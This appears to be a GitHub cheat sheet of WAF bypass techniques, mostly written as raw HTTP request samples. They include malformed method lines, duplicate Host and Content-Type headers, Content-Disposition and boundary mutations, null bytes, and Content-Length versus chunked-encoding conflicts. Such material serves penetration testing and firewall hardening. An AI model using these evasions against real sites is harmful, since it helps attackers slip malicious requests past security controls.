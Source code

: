 # WAF bypass Cheat Sheet
Another way to bypass WAF Cheat Sheet 

**Add \r\n before the first line HTTP request**  

```

GET /login HTTP/1.1
Host: favoritewaf.com
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
```


**Writing the method with a lowercase (Apache)**
```
get /login HTTP/1.1
Host: favoritewaf.com
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
```

**Tabs before the method (IIS)**
```
    GET /login.php HTTP/1.1
Host: favoritewaf.com
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
```

**GET /login?shell_exec HTTP/1.1**
```
GET /login?shell.exec HTTP/1.1
GET /login?shell[exec HTTP/1.1
GET /login?shell%5bexec HTTP/1.1
GET /login?shell%2eexec HTTP/1.1
GET /login?shell%5fexec HTTP/1.1
GET /login?shell%20exec HTTP/1.1
```

**GET /login.php?pam_param=test3**
```
GET /login.php?pam_param=test1&pam[param=test2&pam%5bparam=test3
```

**GET /login.php?hello=world HTTP/1.1**
```
GET /login.php?hello%00another_text=world HTTP/1.1
```

**HTTP Request - absoluteURI**
```
GET http://localhost/login.php HTTP/1.1
Host: favoritewaf.com
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
```

**Double host header**
```
GET /login.php HTTP/1.1
Host: favoritewaf.com
Host: localhost
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
```

**Host with lowercase**
```
GET /login.php HTTP/1.1
host: favoritewaf.com
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
```

**Host without space**
```
GET /login.php HTTP/1.1
Host:favoritewaf.com
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
```
**Host with tab**
```
GET /login.php HTTP/1.1
Host:	favoritewaf.com
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
```
**Host with addition symbols**

/
:
\x00
\x20
\x09
\xad (IIS)

Example:
```
GET /login.php HTTP/1.1
Host: favoritewaf.com:12345
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
```

```
GET /login.php HTTP/1.1
Host: favoritewaf.com ignored.text
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
```

**Content-Type with another text** 
```
POST /login.php HTTP/1.1
Host: favoritewaf.com
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
Content-Type: application/another-text/+++x-www-form-urlencoded

hello=world
```

**HTTP request with incorrect Content-Length (more data than specified)**
```
GET /login.php HTTP/1.1
Host: favoritewaf.com
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
Content-Length: 1

AAAAAAAA
```

**Double Content-Type**
```
Content-Type: multipart/form-data; boundary=ZZZ
Content-Type: multipart/form-data; boundary=AAA
```

**Content-Disposition mutation**
```
GET /login.php HTTP/1.1
Host: favoritewaf.com
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
Accept-Language: en-us
Accept-Encoding: gzip, deflate
Connection: Keep-Alive
Content-Type: multipart/form-data; boundary=--------1218108630

----------1218108630
Content-Disposition: form-data; name="hello"

world
----------1218108630--
```

```
Content-Disposition: form-data; name="hello"
Content-Disposition: form-data; name="hello
Content-Disposition: form-data; name="hello"world"
Content-Disposition: attachment; name="hello"
```


```
Content-Type: multipart/form-data; boundary=x


--x
Content-Disposition:
test1;
--x
test2;
--x--
test3;
name="hello"

world
```
**Boundary mutation**
**PHP**

```
Content-Type: multipart/form-data; myfavoriteboundaryis=X; boundary=Hello;
==
Content-Type: multipart/form-data; boundary=X;
```


**Nullbyte**
```
Content-Type: multipart/form-data; boundary=HELLO\x00XXXXXXXXX
==
Content-Type: multipart/form-data; boundary=HELLO
```

**Ignored Content-Length**
```
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

hello=world
```

==
```
Content-Length: 22
Transfer-Encoding: chunked

0B
hello=world
0

```

==
```
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Transfer-Encoding: chunked

3
hel
3
lo=
3
wor
2
ld
0
```
